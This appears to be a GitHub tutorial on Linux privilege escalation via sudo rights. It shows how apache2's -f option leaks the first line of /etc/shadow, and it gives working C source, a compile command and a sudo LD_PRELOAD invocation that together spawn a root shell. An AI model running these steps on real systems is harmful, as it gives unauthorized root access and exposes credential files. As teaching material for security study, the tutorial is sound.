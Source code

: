 <h1>$${\color{yellow}Privilege} \space {\color{yellow}Escalation:} \space {\color{white}sudo} $$</h1>


The sudo command, by default, allows you to run a program with root privileges. Under some conditions, system administrators may need to give regular users some flexibility on their privileges. For example, a junior SOC analyst may need to use Nmap regularly but would not be cleared for full root access. In this situation, the system administrator can allow this user to only run Nmap with root privileges while keeping its regular privilege level throughout the rest of the system.

********

Any user can check its current situation related to root privileges using the ```sudo -l``` command.

https://gtfobins.github.io/ is a valuable source that provides information on how any program, on which you may have sudo rights, can be used.

Leverage application functions

Some applications will not have a known exploit within this context. Such an application you may see is the Apache2 server.

In this case, we can use a "hack" to leak information leveraging a function of the application. As you can see below, Apache2 has an option that supports loading alternative configuration files (```-f``` : specify an alternate ServerConfigFile).

<p align="center">
<img src="https://github.com/4bo4yman/Privilege-Escalation/assets/156849852/5e341e49-c22f-4b2c-b465-5d057f66b7ec">
</p>

Loading the ```/etc/shadow``` file using this option will result in an error message that includes the first line of the ```/etc/shadow``` file.

Leverage LD_PRELOAD

On some systems, you may see the LD_PRELOAD environment option.

<p align="center">
<img src="https://github.com/4bo4yman/Privilege-Escalation/assets/156849852/4098978d-13ca-4752-a931-0175c5b3f1d1">
</p>

LD_PRELOAD is a function that allows any program to use shared libraries. This blog post will give you an idea about the capabilities of LD_PRELOAD. If the "env_keep" option is enabled we can generate a shared library which will be loaded and executed before the program is run. Please note the LD_PRELOAD option will be ignored if the real user ID is different from the effective user ID.

The steps of this privilege escalation vector can be summarized as follows;

  1.Check for LD_PRELOAD (with the env_keep option)
  
  2.Write a simple C code compiled as a share object (.so extension) file
  
  3.Run the program with sudo rights and the LD_PRELOAD option pointing to our .so file

The C code will simply spawn a root shell and can be written as follows;

```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```

We can save this code as shell.c and compile it using gcc into a shared object file using the following parameters;

```gcc -fPIC -shared -o shell.so shell.c -nostartfiles```

<p align="center">
<img src="https://github.com/4bo4yman/Privilege-Escalation/assets/156849852/786b1248-0d29-41b4-8411-58e05612ac85">
</p>

We can now use this shared object file when launching any program our user can run with sudo. In our case, Apache2, find, or almost any of the programs we can run with sudo can be used.

We need to run the program by specifying the LD_PRELOAD option, as follows;

```sudo LD_PRELOAD=/home/user/ldpreload/shell.so find```

This will result in a shell spawn with root privileges. 

<p align="center">
<img src="https://github.com/4bo4yman/Privilege-Escalation/assets/156849852/216cdd73-1169-4309-a2a2-30bdf66af4e1">
</p>

<br>

******
if this content liked you, follow me [Here](https://github.com/4bo4yman) ;) :tada:
*****
